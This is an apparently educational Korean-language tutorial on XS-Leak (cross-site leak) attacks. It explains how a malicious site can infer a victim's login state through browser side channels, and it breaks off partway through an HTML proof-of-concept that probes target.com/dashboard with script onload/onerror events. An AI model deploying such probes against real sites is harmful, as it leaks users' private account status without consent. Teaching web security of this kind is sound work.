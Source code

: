 # ✅ **XS-Leak (Cross-Site Leak)**

---

## 🔐 1. 왜 위험한가?

현대 웹은 사용자 인증(로그인)을 쿠키 기반으로 처리함.
**동일 출처 정책(SOP)** 덕분에, `evil.com`은 `bank.com`의 콘텐츠를 **직접 읽지는 못해**.
하지만 **브라우저가 보이는 "행동 차이"를 관찰하면**, 간접적으로 정보를 유추할 수 있음.

이게 바로 **XS-Leak (Cross-Site Leak)** 이란 공격이야.

---

## 🧠 2. 개념 요약

| 항목            | 설명                                     |
| ------------- | -------------------------------------- |
| **공격 목적**     | 피해자의 인증 상태, 존재 여부, 검색 결과 유출 등          |
| **직접 접근 가능?** | ❌ 콘텐츠는 못 읽음                            |
| **접근 방식**     | ✅ 브라우저의 반응(성공/실패, 시간 차이, DOM 변화 등)을 이용 |
| **공격 위치**     | 피해자가 공격자가 만든 웹사이트를 방문할 때 발생            |
| **기술 요약**     | *“사이드 채널(side-channel)”을 이용해 정보를 유출함*  |

---

## 📦 3. 예제: 로그인 여부 판단 (에러 이벤트 기반)

### 🎯 목표

> **“사용자가 `target.com`에 로그인했는지?”** 확인

### 🧱 구성

* 로그인 상태: `/dashboard`는 접근 가능 → 200 응답
* 로그아웃 상태: `/dashboard` 접근 시 → 302 로그인 페이지로 리디렉션 or 403/404

### ⚙️ PoC 코드

```html
<!DOCTYPE html>
<html>
  <head>
    <title>XS-Leak 테스트</title>
    <script>
      window.onload = () => {
        const targetURL = "https://target.com/dashboard";

        const testScript = document.createElement("script");

        testScript.onload = () => {
          alert("✅ 로그인 상태입니다!");
        };

        testScript.onerror = () => {
          alert("❌ 로그인 되어 있지 않습니다.");
        };

        testScript.src = targetURL;
```